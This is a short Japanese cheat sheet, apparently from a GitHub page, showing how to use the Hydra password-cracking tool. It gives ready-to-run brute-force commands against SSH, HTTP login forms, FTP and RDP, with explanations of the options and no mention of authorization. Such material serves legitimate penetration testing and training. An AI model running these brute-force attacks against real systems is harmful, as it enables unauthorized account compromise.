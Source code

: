 

## Hydraの使い方

Hydraは、ログイン認証をクラックするためのパスワードクラッキングツールです。特にHTTP、FTP、SSHなど多くのプロトコルに対応しています。

### 1. 基本的な構文

```bash
hydra [オプション] [ターゲットIP] [プロトコル]
2. SSHに対するブルートフォース攻撃の例
特定のユーザー名とパスワードリストを使ってSSHサーバーに対してブルートフォース攻撃を行う例です。
```
```bash

hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100
```
- -l username: 攻撃対象のユーザー名を指定します。
- -P /path/to/passwordlist.txt: 使用するパスワードリストのパスを指定します。
- ssh://192.168.1.100: 攻撃対象のSSHサーバーのIPアドレスを指定します。
3. HTTPフォームへのブルートフォース攻撃の例
特定のウェブサイトのログインフォームに対してブルートフォース攻撃を行う例です。

```bash

hydra -l admin -P /path/to/passwordlist.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```
http-post-form:HTTP POSTリクエストでフォームを送信します。
/login.php: ログインフォームのあるページのパスを指定します。
username=^USER^&password=^PASS^: フォームの入力フィールド名を指定し、^USER^と^PASS^でそれぞれユーザー名とパスワードが置き換えられます。
F=incorrect: ログイン失敗時に表示される文字列を指定します。


4. FTPへのブルートフォース攻撃の例
FTPサーバーに対してブルートフォース攻撃を行う例です。

```bash
hydra -l anonymous -p ftp_password 192.168.1.100 ftp
```
-p ftp_password: 使用する単一のパスワードを指定します。
5. RDPへのブルートフォース攻撃の例
WindowsのRDP（リモートデスクトップ）サービスに対してブルートフォース攻撃を行う例です。

```bash

hydra -t 1 -V -f -l administrator -P /path/to/passwordlist.txt rdp://192.168.1.100
```
- -t 1: 1つのスレッドで攻撃を行う（リモートデスクトップのブルートフォース攻撃では推奨される設定）。
- -V: 攻撃の進行状況を表示します。
- -f: パスワードが見つかったら停止します。
6. Hydraの結果を出力ファイルに保存する
攻撃結果をファイルに保存するには、-oオプションを使用します。

```bash
hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100 -o results.txt
```
- -o results.txt: 結果をresults.txtに保存します。

```bash
hydra -L user.lst -e nsr ftp://10.0.10.13
```
- -L：ユーザリストファイルの指定
- -e nsr：nは"null"で空欄を設定、-sは"same"でユーザ名と同じパスワードを設定、-rは"reverse"でユーザ名を逆転したパスワードを設定
